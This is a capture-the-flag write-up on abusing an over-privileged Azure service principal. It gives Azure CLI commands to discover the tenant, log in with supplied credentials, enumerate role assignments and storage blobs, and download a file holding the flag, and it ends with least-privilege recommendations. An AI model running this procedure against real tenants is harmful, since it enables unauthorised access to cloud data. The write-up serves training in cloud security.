



# Azure RBAC Privilege Escalation Walkthrough

## Challenge Overview

Secure Corp’s Azure environment contains a dangerous RBAC misconfiguration involving an Azure Service Principal.

The objective of this assessment is to:
- Authenticate using provided Service Principal credentials
- Enumerate Azure RBAC permissions
- Identify privilege escalation opportunities
- Abuse excessive IAM permissions
- Access Azure Storage resources
- Retrieve the hidden flag

This lab demonstrates how improper Azure RBAC configurations can allow attackers to escalate privileges and compromise sensitive cloud resources.

---

# Attack Flow



---

# Initial Access

The following credentials were provided:

| Parameter | Value |
|---|---|
| Client ID | `<CLIENT_ID>` |
| Client Secret | `<CLIENT_SECRET>` |
| Domain | `<DOMAIN_NAME>` |

---

# Step 1 — Discover Azure Tenant ID

Azure authentication requires:
- Client ID
- Client Secret
- Tenant ID

The Tenant ID was not directly provided and needed to be discovered using the organization domain.

---

## Command

```bash
curl -s https://login.microsoftonline.com/<DOMAIN_NAME>/v2.0/.well-known/openid-configuration | jq -r '.token_endpoint'
```

---

## Command Explanation

| Component | Purpose |
|---|---|
| `curl -s` | Sends silent HTTP request |
| `.well-known/openid-configuration` | Retrieves Azure OpenID configuration |
| `jq -r` | Extracts raw JSON value |
| `.token_endpoint` | Displays Azure token endpoint |

---

## Example Output

```text
https://login.microsoftonline.com/<TENANT_ID>/oauth2/v2.0/token
```

---

# Step 2 — Authenticate to Azure

Authenticate using the Service Principal credentials.

---

## Command

```bash
az login --service-principal \
-u <CLIENT_ID> \
-p '<CLIENT_SECRET>' \
--tenant <TENANT_ID>
```

---

## Command Explanation

| Argument | Purpose |
|---|---|
| `az login` | Authenticates to Azure |
| `--service-principal` | Uses Service Principal authentication |
| `-u` | Client ID |
| `-p` | Client Secret |
| `--tenant` | Specifies Azure Tenant |

---

# Step 3 — Enumerate RBAC Permissions

After successful authentication, enumerate RBAC assignments associated with the Service Principal.

---

## Command

```bash
az role assignment list \
--assignee <CLIENT_ID> \
--all \
--output table
```

---

## Command Explanation

| Argument | Purpose |
|---|---|
| `role assignment list` | Lists RBAC assignments |
| `--assignee` | Filters by Service Principal |
| `--all` | Retrieves all assignments |
| `--output table` | Displays formatted output |

---

## Example Output

```text
Principal                             Role                         Scope
------------------------------------  ---------------------------  -------------------------------------------------------------------
<CLIENT_ID>                           Owner                        /subscriptions/.../storageAccounts/<STORAGE_ACCOUNT>
<CLIENT_ID>                           Storage Blob Data Owner      /subscriptions/.../storageAccounts/<STORAGE_ACCOUNT>
<CLIENT_ID>                           Storage Blob Data Reader     /subscriptions/.../storageAccounts/<STORAGE_ACCOUNT>
<CLIENT_ID>                           <CUSTOM_ROLE>                /subscriptions/.../storageAccounts/<STORAGE_ACCOUNT>
```

---

# Security Analysis

The Service Principal possessed excessive privileges, including:
- `Owner`
- `Storage Blob Data Owner`
- Custom RBAC roles

This level of access enabled:
- Full storage account administration
- Blob enumeration
- Data exfiltration
- RBAC manipulation

This represents a severe Azure IAM misconfiguration.

---

# RBAC Privilege Escalation Concept



---

# Step 4 — Enumerate Azure Storage Containers

Enumerate available blob containers inside the target Storage Account.

---

## Command

```bash
az storage container list \
--account-name <STORAGE_ACCOUNT> \
--auth-mode login \
--output table
```

---

## Command Explanation

| Argument | Purpose |
|---|---|
| `storage container list` | Lists storage containers |
| `--account-name` | Target storage account |
| `--auth-mode login` | Uses Azure AD authentication |
| `--output table` | Displays formatted output |

---

## Example Output

```text
Name
----------------------
<CONTAINER_NAME>
```

---

# Step 5 — Enumerate Blob Files

List all blobs inside the identified container.

---

## Command

```bash
az storage blob list \
--account-name <STORAGE_ACCOUNT> \
--container-name <CONTAINER_NAME> \
--auth-mode login \
--output table
```

---

## Example Output

```text
Name
--------
test.txt
```

---

# Step 6 — Download the Blob

Download the suspicious file from Azure Blob Storage.

---

## Command

```bash
az storage blob download \
--account-name <STORAGE_ACCOUNT> \
--container-name <CONTAINER_NAME> \
--name test.txt \
--file test.txt
```

---

## Command Explanation

| Argument | Purpose |
|---|---|
| `blob download` | Downloads blob file |
| `--container-name` | Target blob container |
| `--name` | Blob filename |
| `--file` | Local output filename |

---

# Step 7 — Read the File

Inspect the downloaded blob contents.

---

## Command

```bash
cat test.txt
```

---

## Example Output

```yaml
database:
  username: demo_user
  password: <FLAG>
```

---

# Flag

```text
<FLAG>
```

---

# Complete Attack Chain



---

# Key Security Findings

| Finding | Risk |
|---|---|
| Excessive RBAC Privileges | Privilege Escalation |
| Owner Access Granted | Full Resource Compromise |
| Blob Storage Exposure | Sensitive Data Leakage |
| Weak IAM Segmentation | Lateral Movement Risk |

---

# Security Recommendations

## Principle of Least Privilege (PoLP)

Grant only minimum required permissions.

---

## Restrict Role Assignment Permissions

Avoid assigning:

```text
Microsoft.Authorization/roleAssignments/write
```

unless absolutely necessary.

---

## Monitor RBAC Changes

Enable:
- Azure Activity Logs
- Microsoft Defender for Cloud
- Azure Monitor Alerts

to detect suspicious privilege escalation attempts.

---

## Use Conditional Access Policies

Restrict:
- Service Principal authentication
- High-risk cloud actions
- Unmanaged device access

---

## Regular IAM Auditing

Perform periodic reviews of:
- Service Principals
- Custom RBAC roles
- Privileged identities

---

# Conclusion

This assessment demonstrated how excessive Azure RBAC permissions can lead to full cloud resource compromise.

By abusing over-privileged Service Principal assignments, it was possible to:
- Escalate privileges
- Gain administrative access
- Enumerate storage resources
- Exfiltrate sensitive information

Cloud IAM misconfigurations remain one of the most dangerous attack vectors in modern cloud environments.

---